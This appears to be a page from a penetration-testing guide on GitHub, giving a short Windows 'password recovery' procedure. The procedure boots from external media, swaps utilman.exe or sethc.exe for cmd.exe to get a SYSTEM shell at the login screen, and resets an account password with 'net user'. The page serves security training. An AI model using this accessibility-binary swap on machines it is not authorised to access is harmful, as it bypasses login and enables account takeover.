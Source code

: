 # TABLE OF CONTENTS (WINDOWS)
1. [ACCOUNTS](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation.md#accounts)
2. [PASSWORD RECOVERY](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_Windows.md#password-recovery)

<br />

# PASSWORD RECOVERY
1. Boot Windows from CD/USB --> select System repair --> CMD  Eingabeaufforderung
2. Select volume with Windows installed
   - `diskpart` > `list disk` > `sel disk [x]`
4. On Windows volume: `cd c:\Windows\System32`
5. Create backup of original utilman.exe: `move utilman.exe utilman.exe.bak`
6. Replace utilman with cmd: `copy cmd.exe utilman.exe`, exit
   - Alternative: `copy cmd.exe sethc.exe`, exit  (sethc.exe = Sticky-Key = Activation via 5x pressing "arrow key up")
   - Now, sethc/utilman with system privileges is available before login 
7. Start from HDD/SSD > select "Easier usage" at login window
8. CMD is opened and you can enter: `net user [Name] *`
9. Press 2 times Enter to create empty PW

<br />

<br />

